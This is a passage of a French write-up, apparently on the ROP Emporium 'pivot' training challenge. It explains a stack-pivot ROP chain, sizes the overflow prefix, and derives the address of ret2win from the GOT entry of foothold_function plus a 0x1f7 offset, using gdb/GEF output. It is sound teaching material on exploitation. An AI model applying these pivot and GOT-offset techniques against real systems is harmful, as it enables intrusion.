 
Au final la rop chaine de pivot.

| ROP entry | comment |
| ----------- | ------- |
| leak | adresse d'implantation de la chaine d'exploitation - 4 |
| 0x080485f5 | leave;ret |

A noter le -4 nécessaire pour ajusement du fait que les adresses de paramètres de la fonction sont calculés par rapport de ebp positionnée par le mov esp,ebp dans un contexte d'appel call
A noter que le prefixe de débordement doit faire 40 caractères et non plus 44 puisqu'on vise à modifier `SEBP`.


### Seconde chaine de rop: l'exploitation

La seconde chaine de rop en terme d'execution sera la première envoyée on est bien d'accord.


Pour executer `ret2win` qui se trouve dans la librairie il nous faut son adresse.
On ne peut pas l'avoir directement.

Le leak founit correspondant à une adresse sur le tas ne nous est d'aucune utilité pour cela.

En revanche le programme n'etant pas en PIE on dispose de la GOT.

Observons cette table sous gdb/GEF.

    got
    [0x804a00c] read@GLIBC_2.0  →  0x80484c6
    [0x804a010] printf@GLIBC_2.0  →  0x80484d6
    [0x804a014] free@GLIBC_2.0  →  0x80484e6
    [0x804a018] malloc@GLIBC_2.0  →  0x80484f6
    [0x804a01c] puts@GLIBC_2.0  →  0x8048506
    [0x804a020] exit@GLIBC_2.0  →  0x8048516
    [0x804a024] foothold_function  →  0x8048526
    [0x804a028] __libc_start_main@GLIBC_2.0  →  0xf7de1d40
    [0x804a02c] setvbuf@GLIBC_2.0  →  0x8048546
    [0x804a030] memset@GLIBC_2.0  →  0x8048556


    [0x804a024] foothold_function  →  0x8048526

La fonction `foothold_function` est située dans la libraire. Après une première execution son adresse réelle remplacera`0x8048526`.
La fonction ret2win se trouve à une disatance constante de `foothold_function` dans libpivot32.so.

Par exemple sous gdb :

        gef➤  p foothold_function
        $1 = {<text variable, no debug info>} 0xf7fc777d <foothold_function>
        gef➤  p ret2win
        $2 = {<text variable, no debug info>} 0xf7fc7974 <ret2win>
        gef➤  p 0xf7fc7974 - 0xf7fc777d
        $3 = 0x1f7

Ajouter 0x1f7 à l'adresse de `foothold_function` nous donne celle de `ret2win`
Le calcule de cette difference est automatisable en python avec pwntools.
